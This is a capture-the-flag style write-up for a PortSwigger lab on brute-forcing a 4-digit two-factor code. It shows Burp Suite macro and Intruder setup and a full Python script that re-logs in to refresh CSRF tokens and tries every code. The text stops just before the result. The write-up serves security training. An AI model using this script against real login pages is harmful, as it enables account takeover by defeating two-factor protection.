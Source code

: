 # Lab Brute-forcing 2fa verification codes 

## Objective:

 This lab's two-factor authentication is vulnerable to brute-forcing. You have already obtained a valid username and password, but do not have access to the user's 2FA verification code. To solve the lab, brute-force the 2FA code and access Carlos's account page.

Victim's credentials: carlos:montoya 
## Start by looking at the login page

![image](https://user-images.githubusercontent.com/90155329/133940553-691bd94f-403d-4b86-8480-e793a11013f0.png)

![image](https://user-images.githubusercontent.com/90155329/133940559-8099d688-ff43-46a5-b238-61a4a2f4b24a.png)

After logging in, a new login page at /login2 is displayed

![image](https://user-images.githubusercontent.com/90155329/133940567-a8ab6ccf-6579-49a6-be41-14170db86238.png)

![image](https://user-images.githubusercontent.com/90155329/133940571-3f63a8d2-3fb2-4fbc-b011-999a94ebf1e1.png)

Notice the csrf token values. These are important

I tried a couple of mfa options 0000, and 0001. I noticed that after 2 attempts, I automatically get redirected to the login page. 

To complete this lab, I need to brute force every the mfa code by using every possible option. Since the mfa code is only 4 digits, this is possible .

To do this, I need to use burp macros and session handler options, to create login for every mfa attempt. This would ensure that I would receive a new csrf token value.

1. Go to > Project options 
2. From "Session Handling Rules", click "Add"

![image](https://user-images.githubusercontent.com/90155329/133940582-5dbd9316-9238-43e3-9b24-ca407a3648bb.png)

I will use Session Handling Rules to login and get a new csrf token when I use burp intruder to brute force the mfa code

3. Click "ADD" to create a new Rule action. This will open a new prompt.

![image](https://user-images.githubusercontent.com/90155329/133940586-72638212-fb3e-45a0-b90b-d9650915bb4d.png)

4. Click "Add" to create a new macro

![image](https://user-images.githubusercontent.com/90155329/133940628-faf69f42-ad30-4618-93bc-d8fc86603d7a.png)

5. Under "Macro Recorder", choose the requests needed for the login.

![image](https://user-images.githubusercontent.com/90155329/133940616-a6349c2f-e6e5-47c6-83b1-e9975901eda0.png)

1. The First GET request to /login is needed to get the csrf and set-cookie value
2. The POST request used the csrf value and set-cookie value and authenticates using the carlos:montoya credentials
3. The third GET request collects the csrg token value from /login2 

The reason I chose those values is because they are needed to receive a valid csrf token for the /login2 page. This is the page where Burp Intruder will be brute forcing the mfa code. 

From the "Scope" tab of the "Session Handling Rule Editor", make sure that "Intruder" and "Include All URL's" is selected. This makes sure that intruder will run this macro on every request. 

![image](https://user-images.githubusercontent.com/90155329/133940649-b4915a01-c804-43fd-bb8b-1f9f4faa8f3f.png)

The next step is to use intruder to brute force the mfa code

I selected the mfa-code value as the target

![image](https://user-images.githubusercontent.com/90155329/133940655-019058b6-4329-4492-9309-56cae41dbd2d.png)

I chose the following payload options:

![image](https://user-images.githubusercontent.com/90155329/133940669-4c3af3a9-4059-4cd5-8135-2363b193dbb8.png)

This ensures that every 4 character option from 0-9 is iterated through

![image](https://user-images.githubusercontent.com/90155329/133940676-9e2f132e-c66b-408e-aa55-c31faaf6f02e.png)

Session handling does not take multiple threads too well, so I had to do this 1 thread at a time. 

I started the attack 

![image](https://user-images.githubusercontent.com/90155329/133940683-578e5f85-3ab1-446c-852a-a6ffb8e8ccc6.png)

The 200 response codes mean that my the csrf tokens are working which means the macros are correctly functioning. 

In the meantime, I wrote a python script to do the same thing. 

-------------------------------------------------------

				'''
				Portswigger lab 2FA bypass using a brute-force attack

				This script logs in with the provided credentials to /login.

				After this login, the session will get redirected to /login2 which will ask for the MFA code. This code is only 4 digits and can be brute forced.This script will iterate through every option until the MFA code is successful. 

				Because of CSRF defense, I will need to relogin every 2 MFA attempts to get a valid CSRF token. 

				'''

				import sys
				import re
				import requests
				import urllib
				import urllib3

				proxies = {'http': 'http://127.0.0.1:8080', 'https': 'https://127.0.0.1:8080'}
				urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
				login2Cookies = []
				login2CSRF = []

				def mfaBrute(url):
					#brute mfa prompt by attempting every possible option for a 4 digit code(0000,0001,0002,etc). After 2 attempts, login again to get a new valid csrf and token values
					numbers = [0,1,2,3,4,5,6,7,8,9]
					attempt = 1

					for p1 in numbers:
						for p2 in numbers:
							for p3 in numbers:
								for p4 in numbers:
									mfaCode = str(p1) + str(p2) + str(p3) + str(p4)
									cookies = {'session': login2Cookies[-1]}
									data = {'csrf':login2CSRF[-1], 'mfa-code': mfaCode}

									print("Attempting {} with CSRF token of {} and cookie of {}".format(mfaCode,login2CSRF[-1],login2Cookies[-1]))
									p = requests.post(url + "/login2", cookies=cookies,data=data, verify=False, proxies=proxies)

									if "Incorrect security code" not in p.content:
										print("The pin of {} worked!".format(mfaCode))
										exit()

									if attempt % 2 != 0:
										print("Reauthenticating to get new tokens")
										getTokensLogin1(url)
									attempt += 1	

				def getCSRF2(url,cookie2):
					#Send get request to /login2 and collect the second csrf token
					cookies = {'session': cookie2}
					r = requests.get(url + "/login2", cookies=cookies, proxies=proxies, verify=False)
					csrf2 = re.findall('[A-Za-z0-9]{32}',str(r.content))[0]
					login2Cookies.append(cookie2)
					login2CSRF.append(csrf2)


				def getCookie2(url,headers):
					#After authenticating, collect second cookie value for next login mfa prompt page
					cookie2 = re.findall("[A-Za-z0-9]{32}",str(headers))[0]
					getCSRF2(url,cookie2)

				def authenticateLogin1(url,cookie1,csrf1):
					# Uses the collected information to authenticate
					cookies = {'session': cookie1}
					data= {'csrf': csrf1, 'username': 'carlos', 'password':'montoya'}
					p = requests.post(url + "/login",cookies=cookies,data=data,allow_redirects=False, verify=False, proxies=proxies)
					getCookie2(url,p.headers)

				def getTokensLogin1(url):
					# Sends Get request to first login page and saves the cookie and csrf token value
					r = requests.get(url + "/login",verify=False, proxies=proxies)
					cookie1 = re.findall("[A-Za-z0-9]{32}",str(r.headers))[0]
					csrf1 = re.findall("[A-Za-z0-9]{32}",str(r.content))[0]
					authenticateLogin1(url,cookie1,csrf1)


				def main():
					if len(sys.argv) != 2:
						print("(+) Not enough Arguments")
						print("(+)Example: {} http://example.com".format(sys.argv[0]))
					else:
						url = sys.argv[1]
						getTokensLogin1(url)
						mfaBrute(url)

				if __name__ == "__main__":
					main()


---------------------------------------------------------------------

I used this script to start the attack

![image](https://user-images.githubusercontent.com/90155329/133940796-a4adea5b-536f-463d-93c8-850e748d1f46.png)

Eventually, we get the correct MFA code:

